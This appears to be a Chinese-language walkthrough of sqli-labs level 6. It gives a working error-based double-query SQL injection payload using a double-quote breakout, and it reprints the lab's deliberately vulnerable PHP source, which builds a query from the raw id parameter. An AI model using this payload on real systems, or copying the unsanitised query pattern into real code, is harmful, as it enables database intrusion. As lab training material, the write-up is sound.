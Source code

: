# Less-6 **GET Double Query- Double Quotes- String**
TAG：双查询注入、报错注入、字符型注入、GET型注入
## 漏洞利用
less6和less5同样属于双查询注入，也可以考虑进行盲注  
只需简单的将payload中的单引号替换为双引号即可  
payload:```
?id=1" union select 1,count(*),concat((select user()),floor(rand()*2))as a from information_schema.tables group by a--+```   
![less6_1](images/Less6_1.png)
其余操作与less5相同  

## 源码分析  
### less6源码：
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-6 Double Query- Double Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3"  color= "#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-6.jpg" /></center>
</body>
</html>
```
### 漏洞点分析：
```
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
此页面的漏洞成因和less5大体相似，只需要注意一下参数id包裹方式的改变并相应的改变恶意语句  
